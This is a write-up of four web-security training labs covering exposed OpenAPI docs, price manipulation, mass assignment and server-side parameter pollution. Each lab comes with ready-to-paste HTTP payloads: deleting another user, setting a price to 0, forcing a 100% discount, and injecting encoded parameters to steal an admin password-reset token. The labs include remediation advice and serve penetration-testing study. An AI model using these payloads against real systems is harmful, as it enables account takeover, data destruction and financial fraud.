







# API Documentation Exposure — Lab: Discovering OpenAPI & Exploiting PATCH/DELETE

---

## 🔹 One-line summary
Found exposed OpenAPI docs (/openapi.json) → discovered destructive PATCH/DELETE endpoints and reused an active session to perform a PATCH to /api/users/wiener (PoC attached).

---

## 🔹 Overview
Public API documentation (Swagger / OpenAPI / Redoc) often reveals exact endpoints, HTTP methods, parameters and example payloads. When reachable in production, these docs greatly accelerate recon and let an attacker craft precise destructive requests without guessing field names.

---

## 🔹 Methodology / Lab walkthrough (precise steps)
1. Open the lab and *log in* with:
   - username: wiener
   - password: peter

2. Navigate to *My account*.

3. In the account page: *update the email* field and click *Update*.

4. With Burp Proxy ON, capture the generated request:  
   PATCH /api/users/wiener HTTP/2 (request body contains modified email).

5. *Send the captured PATCH to Repeater*.

6. In Repeater, change the request path from:  
   PATCH /api/users/wiener HTTP/2  
   to:  
   PATCH /api HTTP/2  
   — then *Send*. (Observe HTTP 200 OK.)

7. Probe for API docs using the base path: check /api, /openapi.json, /swagger.json, /swagger-ui.  
   - *Found:* /openapi.json.

8. Inspect /openapi.json and identify destructive endpoints, e.g.:  
   DELETE /api/users/{username}

9. Return to the Repeater request, modify:
   - Method: PATCH → DELETE
   - Path: /api/users/wiener → /api/users/carlos
   - Ensure the captured session cookie is present.

10. *Send* the DELETE /api/users/carlos HTTP/2 request in Repeater.

11. Verify success (HTTP 200/204) and confirm the target user (carlos) is removed — lab solved.

---

## 🔹 Repeater-ready PoC (example)
DELETE /api/users/carlos HTTP/2 Host: <lab-host> Cookie: session=<SESSION> Accept: / Connection: close
---

## 🔹 Proof
  
(Screenshot: Repeater request showing the crafted PATCH/DELETE requests (modified path and method) and the successful response.)

---

## 🔹 Impact
- Direct account modification / deletion → data loss, account takeover.  
- Discovery of internal/admin endpoints → SSRF, internal API abuse, larger compromise.  
- Easy automation of mass-extraction when docs enumerate many endpoints.

---

## 🔹 Remediation (short)
- Restrict access to API docs in production (auth, IP allowlist, or VPN).  
- Remove sensitive examples / tokens and internal hostnames from docs.  
- Enforce server-side authorization for every endpoint.  
- Rate-limit and log access to docs and admin endpoints.

---

## 🔹 Pentest checklist
- [x] Login & capture session cookie.  
- [x] Trigger UI actions to reveal API base path.  
- [x] Probe /openapi.json, /swagger.json, /swagger-ui.  
- [x] Inspect docs for destructive endpoints (DELETE, PATCH).  
- [x] Reuse session cookie and craft exact Repeater requests.  
- [x] Verify impact, save raw request/response and one screenshot as PoC.

---

# API Testing — Lab-2: Price Manipulation → Buy for $0

---

## 🔹 One-line summary
Found a product price API and used a PATCH /api/products/{id}/price request to set the price to 0, then added the item to cart and completed checkout (PoC steps included).

---

## 🔹 Overview
APIs expose server-side functionality (GET/PATCH/PUT/DELETE). Hidden or poorly protected mutation endpoints (price updates, role changes, discounts) let attackers change business logic and cause real financial loss. This lab demonstrates changing a product price to 0 and completing an order.

---

## 🔹 Methodology / Lab walkthrough (concise flow)
- *Authenticate & capture* — log in (wiener:peter) with Burp Proxy ON; browse the product page to capture API calls.  
- *Discover price endpoint* — observe GET /api/products/1/price (or similar) and forward it to Repeater to inspect returned JSON (field names).  
- *Probe / switch method* — in Repeater change GET → PATCH, add header Content-Type: application/json to provoke helpful errors.  
- *Learn parameter name from errors* — use error responses (e.g., ErrorPriceParameterMissingInBody) to identify expected JSON key (e.g., price).  
- *Exploit* — send PATCH /api/products/1/price with body {"price":0} and confirm 200 OK.  
- *Verify & purchase* — GET the price to confirm {"price":0}, add product to cart in browser, then checkout → order completes at $0 → lab solved.

---

## 🔹 Repeater-ready PoC (copy / paste & edit)
PATCH /api/products/1/price HTTP/2 Host: <LAB_HOST> Cookie: session=<SESSION> Content-Type: application/json Accept: / Connection: close

{"price":0}
*Fallback (checkout discount method):*
POST /api/checkout HTTP/2 Host: <LAB_HOST> Cookie: session=<SESSION> Content-Type: application/json Connection: close

{"chosen_products":[{"product_id":"1","quantity":1}],"chosen_discount":{"percentage":100}}
---

## 🔹 Common responses & troubleshooting
- 415 → wrong Content-Type; set application/json.  
- 400 ErrorPriceParameterMissingInBody → use the indicated JSON key (price).  
- 405 Method Not Allowed → try PUT/POST.  
- 401/403 → must include valid session cookie.  
- If price updates but checkout still charges full amount, check for separate price calculations at checkout or client-side price enforcement.

---

## 🔹 Proof
  
(Screenshot: Repeater request showing PATCH /api/products/1/price with {"price":0} and the 200 OK response; follow-up screenshot of cart/checkout showing $0 order is recommended.)

---

## 🔹 Impact
- Direct financial loss / fraud (orders placed at $0).  
- Business-impact (revenue loss, accounting anomalies).  
- Potential chain to further exploitation (mass price changes, inventory corruption).

---

## 🔹 Remediation (short)
- Require server-side authorization for price changes and only allow privileged roles to mutate prices.  
- Validate and whitelist JSON fields and types; reject unexpected fields.  
- Remove or protect hidden admin endpoints in production.  
- Log and alert on unusual mutation patterns (rapid PATCHes to price endpoints).  
- Apply rate-limiting and anomaly detection for mutation endpoints.

---

## 🔹 Pentest checklist
- [x] Crawl UI & JS for /api/ paths.  
- [x] Capture product-related GETs to learn field names.  
- [x] Try GET → PATCH/PUT/POST with Content-Type: application/json.  
- [x] Use error messages to discover JSON keys.  
- [x] Modify price → verify via GET, cart, and checkout.  
- [x] Document requests/responses and include a screenshot of the successful price change and $0 checkout PoC.

---

# Mass Assignment (Auto-Binding) — Lab-3: Force 100% Discount / Set item_price to 0

---

## 🔹 One-line summary
Abused mass-assignment (auto-binding) by adding hidden fields from the API GET into the checkout POST — forced a 100% discount / item_price 0 and completed a $0 purchase. (PoC attached.)

---

## 🔹 Overview
Mass assignment (auto-binding) occurs when a framework automatically maps request parameters onto internal model fields. If the server accepts unexpected fields (e.g., isAdmin, item_price, chosen_discount) without validation or authorization, attackers can change internal flags or business-critical values (price, discount) to cause privilege escalation or financial fraud.

---

## 🔹 Methodology / Lab walkthrough (concise flow)
- *Authenticate & observe* — log in (e.g., wiener:peter) and add the target product to cart; capture API traffic in Burp.  
- *Inspect object JSON* — send GET /api/checkout (or GET /cart) to Repeater and inspect returned JSON to find hidden keys (e.g., item_price, chosen_discount, percentage).  
- *Capture the processing request* — perform the normal Place Order action and capture the POST /api/checkout request that the UI sends.  
- *Edit request body* — in Repeater, replace the POST body with the JSON copied from the GET plus added hidden/modified fields (examples: {"chosen_products":[{"product_id":"1","quantity":1,"item_price":0}],"chosen_discount":{"percentage":100}}).  
- *Send & verify response* — forward the modified POST; expect 200/201 confirming acceptance.  
- *Confirm UI change* — refresh cart / checkout in the browser and complete purchase → order succeeds at $0. Document request/response and take screenshots.

---

## 🔹 Repeater-ready PoC examples

*Give 100% discount*
POST /api/checkout HTTP/1.1 Host: <LAB_HOST> Cookie: session=<SESSION> Content-Type: application/json Accept: / Connection: close

{"chosen_products":[{"product_id":"1","quantity":1}],"chosen_discount":{"percentage":100}}
*Set item_price = 0 (use exact field names from GET)*
POST /api/checkout HTTP/1.1 Host: <LAB_HOST> Cookie: session=<SESSION> Content-Type: application/json Accept: / Connection: close

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","quantity":1,"item_price":0}]}
(Always copy exact keys/types from the GET response — JSON is case-sensitive.)

---

## 🔹 Proof (evidence)

1. *Modified POST body* — added hidden fields copied from GET and changed price/discount:  
   

2. *UI confirmation — $0 checkout / order success* — shows cart/receipt with price = $0:  
   

---

## 🔹 Impact
- Financial fraud: orders at $0 (revenue loss) or mass price manipulation.  
- Business-logic compromise: unauthorized privilege/flag changes (isAdmin, trusted, etc.).  
- High real-world impact — immediate monetary loss or escalations.

---

## 🔹 Remediation (short)
- *Whitelist* allowed fields server-side (deny everything else).  
- Avoid automatic binding of all incoming parameters to models. Explicitly map permitted fields.  
- Enforce authorization checks for sensitive fields (e.g., only admins may set price/isAdmin).  
- Validate types & ranges (price ≥ 0; discounts bounded) and log anomalous mutation requests.  
- Remove unused endpoints and test for hidden fields during code reviews.

---

## 🔹 Pentest checklist
- [x] Capture GET that returns resource JSON — list candidate hidden fields.  
- [x] Capture the POST/PATCH that applies the change (e.g., /api/checkout).  
- [x] Recreate request in Repeater, add hidden fields exactly (keys & types).  
- [x] Send request → verify success status and UI state change (cart/receipt).  
- [x] Save raw request/response + screenshots (modified body + UI success) for PoC.

---

# Server-side Parameter Pollution (SSPP) — Lab-4: Exploiting injected query params to retrieve reset token & reset admin password

---

## 🔹 One-line summary
Exploited server-side parameter pollution by injecting encoded URL syntax into a public parameter to force the server’s internal API to accept field=email → field=reset_token, obtained a reset token, reset admin password and completed the admin takeover (PoC attached).

---

## 🔹 Overview
Server-side Parameter Pollution (SSPP) occurs when user-controlled input (query string, form fields) is embedded verbatim into a server → internal-service request. By injecting encoded characters (%26, %23, %3D) you can add, truncate or override parameters that the internal API receives — changing internal behaviour without the front-end showing anything different.

---

## 🔹 Methodology / Lab walkthrough (precise steps)
1. *Locate endpoint* — find the public endpoint that the app forwards to an internal API (example: POST /forgot-password).  
2. *Capture baseline request* — use Burp Proxy to capture POST /forgot-password and confirm normal responses for invalid usernames.  
3. *Quick injection test* — send username=administrator%26x=1 to check if additional params reach the internal API (different error messages indicate reachability).  
4. *Truncation test* — send username=administrator%23 to observe truncation behaviour; note changed response messages.  
5. *Combine add + truncate to probe internal param name* — send username=administrator%26field=§x§%23 and brute-force §x§ (Intruder) with candidate values (email, reset_token, id, token, etc.).  
6. *Identify valid field value* — when field=email produces a success-like response or expected behavior, you’ve found a valid field parameter mapping.  
7. *Request token* — replace field=email with field=reset_token (or the discovered value that returns a token). Example: username=administrator%26field=reset_token%23 — send and capture returned token.  
8. *Use token to reset password* — follow the reset URL/process (e.g., /forgot-password?reset_token=<token>) and set a new password for administrator.  
9. *Login as admin & verify* — authenticate with new credentials and perform the required lab action (e.g., delete carlos) to mark lab solved.

---

## 🔹 Repeater-ready payload examples (copy / paste & edit)
*Probe for add+truncate (Intruder candidate position):*
POST /forgot-password HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<SESSION>

username=administrator%26field=§x§%23
*Direct test (found field = email):*
POST /forgot-password HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<SESSION>

username=administrator%26field=email%23
*Request token (found field = reset_token):*
POST /forgot-password HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<SESSION>

username=administrator%26field=reset_token%23
*Follow-up (reset password using token — example GET):*
GET /forgot-password?reset_token=<TOKEN> HTTP/1.1 Host: <LAB_HOST> Cookie: session=<SESSION>
(URL-encode & as %26 and # as %23 so the characters reach the server-side concatenation layer.)

---

## 🔹 Proof (evidence)
1. *Found field parameter (field=email) via Intruder / responses*  
   

2. *Replaced field with reset_token and captured the returned token*  
   

3. *Final lab solved — admin reset/login/delete carlos (UI / response proof)*  
   

---

## 🔹 Impact
- Token disclosure / account takeover (password resets) → full admin compromise.  
- Internal API actions triggered without proper validation → data theft, privilege escalation, destructive actions.  
- SSPP can transform harmless public inputs into privileged internal requests.

---

## 🔹 Remediation (short)
- *Canonicalize & escape* user input before embedding into internal request strings.  
- *Avoid string concatenation* for internal requests — use structured parameter maps / builders.  
- *Validate & whitelist* allowed parameter names/values on the internal API (deny unknown params).  
- *Reject/encode* raw &, #, = in fields that will be forwarded or treat values as opaque.  
- *Log & monitor* suspicious encoded inputs (%26, %23) and alert on patterns that look like SSPP probing.

---

## 🔹 Pentest checklist (copyable)
- [ ] Identify endpoints that proxy/forward user input server → internal API (forgot-password, search, stock-check).  
- [ ] Capture a baseline request & response for invalid/valid inputs.  
- [ ] Test add (%26), truncate (%23), and override payloads and observe response differences.  
- [ ] Use Intruder to brute-force candidate field values when internal param name unknown.  
- [ ] When token/data retrieved, follow reset/flow to confirm takeover and document PoC.  
- [ ] Report exact payloads, raw requests/responses and remediation advice.

---
